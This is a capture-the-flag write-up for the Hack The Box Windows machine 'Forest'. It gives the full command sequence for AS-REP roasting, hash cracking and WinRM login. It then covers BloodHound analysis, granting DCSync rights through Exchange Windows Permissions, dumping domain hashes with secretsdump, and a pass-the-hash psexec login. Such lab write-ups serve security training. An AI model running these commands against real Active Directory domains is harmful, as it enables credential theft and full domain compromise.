 ```yaml
---
title: "[HTB] Machine: Forest"
description: "[HTB] Machine: Forest"
date: 2023-06-24
menu:
  sidebar:
    name: "[HTB] Machine: Forest"
    identifier: htb-machine-forest
    parent: htb-machines-windows
    weight: 10
hero: images/forest.png
tags: ["HTB"]
---
```


# Forest
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.161 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 16:32 BST
Nmap scan report for 10.10.10.161 (10.10.10.161)
Host is up (0.15s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-06-26 15:39:16Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m18s, deviation: 4h02m30s, median: 6m17s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-06-26T15:39:27
|_  start_date: 2023-06-26T14:24:16
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: 
FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-06-26T08:39:24-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.94 seconds

```
- Dns
  - No results with zone transfer

![](./images/1.png)

- Nothing on `smb`
- Let's use the following post:
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration 
  - https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/

![](./images/2.png)
![](./images/3.png)
![](./images/4.png)

## Foothold/User
- We got the following users
```
Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

- Let's start with `AS-REP Roasting`
  - `impacket-GetNPUsers htb/ -dc-ip 10.10.10.161 -usersfile user.list -format hashcat -no-pass `

![](./images/5.png)

- We got hash
  - Let's crack it: `hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt`

![](./images/6.png)

- Let's connect
  - `evil-winrm -u 'svc-alfresco' -p 's3rvice' -i 10.10.10.161`

![](./images/7.png) 

## Root
- Let's enumerate domain using `bloodhound`
  - I ran python version of the tool from the attack box: `bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -dc forest.htb.local -ns 10.10.10.161 -c all --zip`
  - You can upload `Sharphound` to the box and run it to get the same results
  - Start `neo4j`
    - `sudo neo4j start`
  - Launch `bloodhound`:
    - `bloodhound`
  - And import `zip` file 

![](./images/8.png) 
![](./images/9.png) 

- `svc-alfresco` is a member of `Service Accounts`, which is a member of `Privileged IT Accounts`, which is a member of `Account Operators`, 
  - Thus `svc-alfresco` is a member of `Account Operators`. 
  - While Account Operators has `Generic All` privilege on the `Exchange Windows Permissions` group.
  - According to the [post](https://duo.com/decipher/microsoft-exchange-users-get-admin-rights-in-privilege-escalation-attack):
    - `The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which means any member of the group can modify the domain privileges, such as the ability to perform DCSync, or synchronization operations by Domain Controllers.`
  - So we can perform `dcsync` attack
    - `$pass = ConvertTo-SecureString "Password123" -AsPlainText -Force`
    - `New-ADUser pentest -AccountPassword $pass -Enabled $True`
    - `Add-ADGroupMember -Identity "Exchange Windows Permissions" -members pentest`
    - `$cred = New-Object system.management.automation.pscredential('htb\pentest', $pass)`
    - `Add-ObjectACL -PrincipalIdentity pentest -Credential $cred -Rights DCSync`
  - We need to perform these commands one by one
  - And then perform `dcsync`
    - `impacket-secretsdump htb.local/pentest:Password123@10.10.10.161 -just-dc`

![](./images/10.png) 
![](./images/11.png) 

- Connect using Administrator's hash
  - `impacket-psexec htb.local/administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'`

![](./images/12.png) 

